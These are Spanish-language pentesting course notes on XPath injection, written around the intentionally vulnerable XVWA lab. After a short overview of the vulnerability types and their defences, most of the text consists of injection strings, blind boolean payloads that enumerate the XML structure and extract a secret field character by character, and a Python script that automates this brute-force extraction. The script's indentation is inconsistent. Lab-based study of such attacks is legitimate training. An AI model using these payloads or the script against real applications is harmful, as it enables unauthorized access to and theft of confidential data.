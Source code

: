 # Inyecciones XPath

Tags: #XPath #OWASP #Explotacion 

**XPath** es un lenguaje de consultas utilizado en **XML** que permite buscar y recuperar información específica de **documentos XML**. Sin embargo, al igual que otros lenguajes de programación y consultas, XPath también puede tener **vulnerabilidades** que los atacantes pueden aprovechar para comprometer la seguridad de una aplicación web.

Las **vulnerabilidades XPath** son aquellas que se aprovechan de las debilidades en la implementación de consultas XPath en una aplicación web. A continuación, se describen algunos tipos de vulnerabilidades comunes en XPath:

-   **Inyección XPath**: los atacantes pueden utilizar inyección de código malicioso en las consultas XPath para alterar el comportamiento esperado de la aplicación. Por ejemplo, pueden agregar una consulta maliciosa que recupere toda la información del usuario, incluso información confidencial como contraseñas.
-   **Fuerza bruta de XPath**: los atacantes pueden utilizar técnicas de fuerza bruta para adivinar las rutas de XPath y recuperar información confidencial. Esta técnica se basa en intentar diferentes rutas XPath hasta encontrar una que devuelva información confidencial.
-   **Recuperación de información del servidor**: los atacantes pueden utilizar consultas XPath maliciosas para obtener información sobre el servidor, como el tipo de base de datos, la versión de la aplicación, etc. Esta información puede ayudar a los atacantes a planear ataques más sofisticados.
-   **Manipulación de respuestas XPath**: los atacantes pueden manipular las respuestas XPath de la aplicación web para obtener información adicional o alterar el comportamiento de la aplicación. Por ejemplo, pueden modificar una respuesta XPath para crear una cuenta de usuario sin permiso.

Para protegerse contra las vulnerabilidades de XPath, es importante validar todas las entradas de usuario y evitar la construcción dinámica de consultas XPath. Además, se recomienda restringir los permisos de acceso a los recursos de la aplicación web y mantener actualizado el software y los sistemas operativos. Por último, se recomienda utilizar herramientas de análisis de seguridad y realizar pruebas de penetración regulares para identificar y corregir cualquier vulnerabilidad en la aplicación web.

A continuación, se proporciona el enlace directo de descarga a la máquina XVWA 1 de Vulnhub, la cual usamos en esta clase para explotar las vulnerabilidades existentes en XPath:

-   **XVWA 1**: [https://www.vulnhub.com/entry/xtreme-vulnerable-web-application-xvwa-1,209/](https://www.vulnhub.com/entry/xtreme-vulnerable-web-application-xvwa-1,209/)


## Inyecciones XPath

Este tipo de inyecciones las debemos de hacer en documentos XML.

* [XPath-Injection](https://book.hacktricks.xyz/pentesting-web/xpath-injection)

Algunas inyecciones basicas son
```bash
❯ ' or '1'='1
❯ " or "1"="1
❯ ' or ''='
❯ " or ""="
```

Primero debemos de averiguar cuantas etiquetas primarias existen en el documento.
```bash
❯ 1' and count(/*)='1             # Contaremos el numero de etiquetas raiz o primarias, si no nos sale el producto colocando el numero 2 al final, quiere decir que solo existe una etiqueta primaria.
```

```bash
❯ 1' and string-length(name(/*[1]))>'2            # Para saber la longitud de la cadena de esa etiqueta primaria, aqui le decimos que si es mayor a dos, si nos muestra el producto es correcto, de lo contrario no lo es
❯ 1' and string-length(name(/*[1]))='7            # Para saber la longitud de la cadena de esa etiqueta primaria, aqui le decimos que si es igual a siete, si nos muestra el producto es correcto, de lo contrario no lo es

❯ 1' and substring(name(/*[1]),1,1)='C            # Para saber el nombre de la etiqueta 'primaria', iremos caracter por caracter. En este caso le estamos diciendo que el primer caracter es igual a 'C'. Si nos sale el producto quiere decir que si es correcta de lo contrario no.

❯ 1' and name(/*[1])='label_name                  # Para saber el nombre de la etiqueta 'primaria', colocamos el [1] para hacer alucion a la primer etiqueta, si hay mas etiquetas cambiamos el numero que esta entre [], 
	# label_name = Nombre de la etiqueta que ya conocemos
```

Ahora debemos de descubrir el nombre de las etiquetas secundarias.
```bash
❯ 1' and count(/*[1]/*)>'7                 # Contaremos el numero de etiquetas secundarias, si nos sale el producto quiere decir que es valida. 
❯ 1' and count(/*[1]/*)='10                # Contaremos el numero de etiquetas secundarias, diciendo si son iguales a 10 etiquetas
```

```bash
❯ 1' and substring(name(/*[1]/*[1]),1,1)='C            # Para saber el nombre de la etiqueta 'secundaria', iremos caracter por caracter. En este caso le estamos diciendo que el primer caracter es igual a 'C'. Si nos sale el producto quiere decir que si es correcta de lo contrario no. El segundo [1] es el que se varia para cada una de las etiquetas
```

```bash
❯ 1' and string-length(name(/*[1]/*[1]))='6            # Para saber la longitud de la cadena de esa etiqueta secundaria, aqui le decimos que si es igual a seis, si nos muestra el producto es correcto, de lo contrario no.
```

Despues debemos de conocer el nombre de las sub-etiquetas
```bash
❯ 1' and count(/*[1]/*[1]/*)>'2                   # Contaremos el numero de etiquetas secundarias, si nos sale el producto quiere decir que es valida. El valor que estaremos variando es el segundo [1] a 2,3,4 depende de las etiquetas secundarias anteriormente encontradas
```

```bash
❯ 1' and substring(name(/*[1]/*[1]/*[1]),1,1)='I            # Para saber el nombre de la etiqueta 'subetiqueta', iremos caracter por caracter. En este caso le estamos diciendo que el primer caracter es igual a 'I'. Si nos sale el producto quiere decir que si es correcta de lo contrario no. El tercer [1] es el que se varia para cada una de las sub-etiquetas y ademas debemos de variar el primer '1' que seria mencion al segundo caracter
```

Para averiguar el contenido de una sub-etiqueta
```bash
❯ 1' and substring(Secret,1,1)='E            # Para saber el contenido de la sub-etiqueta, iremos caracter por caracter. En este caso le estamos diciendo que el primer caracter es igual a 'E'. Si nos sale el producto quiere decir que si es correcta de lo contrario no.
```

```bash
❯ 1' and string-length(Secret)>'20            # Para saber la longitud de la cadena del contenido de la sub-etiqueta, aqui le decimos que si es mayor a veinte, si nos muestra el producto es correcto, de lo contrario no
```

Automatizaremos la parte de encontrar el nombre de la etiqueta primaria. Por lo que crearemos un script llamado 'xpath_injection.py'
```python
#!/usr/bin/python3

from pwn import *
import requests
import signal
import sys
import time
import string
import pdb 

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)
    
# Ctrl + c
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://192.168.68.1/xvwa/vulnerabilities/xpath/"
characters = string.ascii_letters                    # Englobas los caracteres, mayusculas y minusculas, le agregaremos + ' ' en la parte de ver el contenido de las sub

def XPathInjection():
	data = ""
	p1 = log.progress("Fuerza Bruta")
     p1.status("Iniciando fuerza bruta")
     time.sleep(2)
     p2 = log.progress("Data")

	for position in range(1, 8):       # Para la etiqueta secundaria seria 6 o sea de 1-7, para las bus-etiquetas va a ir de 1-6 o sea 5 recorridos, y el contenido 1-51
		# for sec_position in range(1, 21):    Esto se coloca solo para las sub-etiquetas
			for character in characters:
				post_data = {
					'search': "1' and substring(name(/*[1]),%d,1)='%s" % (position, character),
					# 'search': "1' and substring(name(/*[1]/*[1]),%d,1)='%s" % (position, character), # Para buscar el nombre de la etiqueta secundaria
					# 'search': "1' and substring(name(/*[1]/*[1]/*[%d]),%d,1)='%s" % (position, sec_position, character), # Para buscar el nombre de las sub-etiquetas
					# 'search': "1' and substring(Secret,%d,1)='%s" % (position, character), # Para encontrar el contenido de la etiqueta
					'submit': ''
				}
				r = requests.post(main_url, data=post_data)
				# print(len(r.text)) Para saber el tamano 
				
				if len(r.text) != 8681:     # 8686 para la parte de etiqueta secundaria y el '8691 and len(r.text) != 8692:' para las sub-etiquetas, para el contenido de las sub-etiquetas el numero es '8676 and len(r.text) != 8677:'
					data += character
					p2.status(data)
					break
		# if position != 5:  # Esto para sub-etiquetas
			# data += ":"   # Separador de columnas en las sub-etiquetas
     p1.success("Ataque de fuerza bruta concluido")
     p2.success(data)

if __name__ == '__main__':
    XPathInjection()
```

 Nos creamos un script llamado 'data.xml' en donde colocaremos lo descubierto anteriormente 
```javascript
<Coffees>
	<Coffee>
		<ID></ID>
		<name></name>
		<Desc></Desc>
		<Price></Price>
		<Secret></Secret>
		<></>
	</Coffee>
</Coffees>
```